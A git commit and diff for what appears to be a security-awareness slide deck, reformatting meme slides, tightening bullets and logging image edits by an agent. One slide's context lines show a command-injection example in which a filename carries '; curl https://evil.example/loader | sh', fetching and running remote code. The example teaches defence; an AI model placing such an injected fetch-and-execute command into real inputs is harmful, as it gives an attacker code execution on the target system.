

feat(slides): refine drake crop, cast-fireball text, and meme layouts
- drake.jpg: crop white right column (1200x1200 -> 611x1200) via PIL pixel scan
- cast-fireball.jpg: add "FIREBALL" second line under "I CAST" (Impact 72pt, white + black stroke)
- Slides.md: switch Cast Fireball + Drake slides from columns layout to ![bg left] pattern
- Slides.md: tighten auth-slide bullets and reformat ATT&CK lens as list
- mcmanus/history.md: log PIL pixel-scan crop and Impact-font overlay techniques

Marp validation: exit 0.

Changed region(s): [[0.303, 0.7433, 0.697, 0.8362]]

diff --git a/slides/Slides.md b/slides/Slides.md
@@ -280,11 +280,14 @@ The gate is not a vibe. It is a control surface.
 
 - No token? **401.**
 - Wrong role? **403.**
-- Weird payload? **Rejected before business logic.**
-- Too many guesses? **Rate-limited and logged.**
+- Weird payload? **Rejected**
+- Too many tries? **Rate-limited, logged.**
 - Valid account from impossible travel? **Challenge it.**
 
-**ATT&CK lens:** T1078 valid accounts, T1110 brute force, T1190 exposed app exploitation
+**ATT&CK lens:** 
+- T1078 valid accounts
+- T1110 brute force
+- T1190 exposed app exploitation
 
 </div>
 </div>
@@ -381,15 +384,11 @@ class CredentialStuffingDetector {
 
 ## I Cast Fireball at the Input Field
 
-<div class="columns">
-<div>
+![bg left:40%](./img/memes/cast-fireball.jpg)
 
-![h:430](./img/memes/cast-fireball.jpg)
-
-</div>
-<div>
 
 ```text
+
 Developer: We validate filename length.
 Attacker:  I cast ; curl https://evil.example/loader | sh
 Shell:     That is technically a second spell.
@@ -400,9 +399,6 @@ Shell:     That is technically a second spell.
 - The blast radius is now the process identity
 
 **ATT&CK lens:** T1059 — Command and Scripting Interpreter
-
-</div>
-</div>
 
 <!-- The joke is not that attackers are wizards; it is that shells are dangerous interpreters. If untrusted input reaches a shell, the attacker gets a language runtime, not a filename parser. -->
 ---
@@ -640,13 +636,7 @@ public class FileUploadValidator {
 
 ## Secrets Management: A Choice
 
-<div class="columns">
-<div>
-
-![w:100%](./img/memes/drake.jpg)
-
-</div>
-<div>
+![bg left:20%](./img/memes/drake.jpg)
 
 | ❌ Drake disapproves | ✅ Drake approves |
 |---|---|
@@ -656,8 +646,6 @@ public class FileUploadValidator {
 
 **ATT&CK lens:** T1552 — Unsecured Credentials
 
-</div>
-</div>
 
 <!-- This is the Drake format without the image. The teaching point is simple: credentials in code create T1552 exposure, while identity-based access and scoped authorization remove static secrets from the application path. -->
 ---

diff --git a/.squad/agents/mcmanus/history.md b/.squad/agents/mcmanus/history.md
@@ -22,3 +22,7 @@
 - 2026-05-11: Acronym audit found the main deck defines TTPs and FMX inline, but many security-specific acronyms are first used bare in slides or speaker notes. Strong candidates for first-use expansion include ATT&CK, SIEM, SBOM, SAST, CVE/CVSS, RCE, RAT, C2, SAML, RBAC, IAM, CSRF, XSS, and SQLi.
 - 2026-05-11: Medieval/fantasy narrative works best as a threaded motif in section intros and speaker notes, especially castle-defense analogies for Initial Access, Persistence, Credential Access, Defense Evasion, Exfiltration, and Defense in Depth. Avoid applying it to code samples, MITRE matrix/mapping tables, and CVE-specific facts.
 - 2026-05-11: Supply-chain research found Axios 2026 and Notepad++ 2025/2026 are well-documented enough for deck use. Strongest Notepad++ angle is update-infrastructure hijack/Chrysalis, not generic fake installers. Shai-Hulud is the strongest modern npm narrative; Log4Shell should be framed as dependency-trust failure, not malicious supply-chain compromise.
+
+**2026-05-11T20:10:00-04:00 | Drake meme crop** – Cropped `slides/img/memes/drake.jpg` from 1200×1200 to 611×1200 using Python PIL intelligent right-edge detection (found colored content at x=601, cropped to x=611). Method: automatic pixel scanning. Marp validation: clean (exit 0). Slide markdown unchanged (`![bg left:20%]` layout handles aspect ratio change).
+2026-05-11T20:05:38-04:00 - cast-fireball.jpg updated via ImageMagick-style PIL overlay on existing image; final dimensions 660x1001; Marp validation exit 0.
+- 2026-05-11: Added `FIREBALL` to `slides/img/memes/cast-fireball.jpg` with Python PIL using macOS Impact 72pt, 5px black stroke, centered at y=750 under the original `I CAST` caption.
